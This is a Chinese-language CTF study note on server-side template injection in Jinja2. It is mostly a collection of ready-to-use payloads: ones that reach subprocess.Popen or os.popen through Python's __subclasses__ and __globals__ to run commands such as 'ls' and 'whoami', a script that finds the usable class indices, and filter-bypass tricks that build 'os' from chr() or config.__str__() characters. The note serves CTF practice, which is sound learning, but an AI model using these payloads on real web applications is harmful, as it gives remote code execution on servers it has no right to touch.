 ```py
python2遇到的奇特的类<class 'subprocess.Popen'> 直接RCE
{{''.__class__.__mro__[2].__subclasses__()[258]('ls',shell=True,stdout=-1).communicate()[0].strip()}}
```

**所以SSTI考的就是对payload的收集以及在题目环境下的挖掘和`bypass`**

## python3

常见的类

```python
search='popen'
num=-1
for i in ().__class__.__mro__[-1].__subclasses__():
    num+=1
    try:
        if search in i.__init__.__globals__.keys():
            print(i,num)
    except:
        pass

本地环境！题目环境需要另外测试
<class 'os._wrap_close'> 132
"".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('whoami').read()

popen换为__import__
<class '_frozen_importlib._ModuleLock'> 80
<class '_frozen_importlib._DummyModuleLock'> 81
<class '_frozen_importlib._ModuleLockManager'> 82
<class '_frozen_importlib.ModuleSpec'> 83
{{"".__class__.__bases__[0].__subclasses__()[80].__init__.__globals__.__import__('os').popen('whoami').read()}}
```



## bypass

bypass遇到题目后再来细讲和补充

> 利用 **request.args.x1**   **request.cookie.x1**   **request.values.x1**来bypass

> 利用`config的__str__`数组得到想要的字符来bypass
>
> ```python
> (config.__str__()[2])%2B(config.__str__()[42]) <==> 'os'
> ```
>
> 包括但不局限于config

> 先把chr函数找出来，再用chr函数拼接
>
> ```python
> {% set chr=url_for.__globals__.__builtins__.chr %}{{chr(111)%2bchr(115)}}  <==>  'os'
> ```
>
> 好用是因为找**chr**的过程没用多少特殊字符
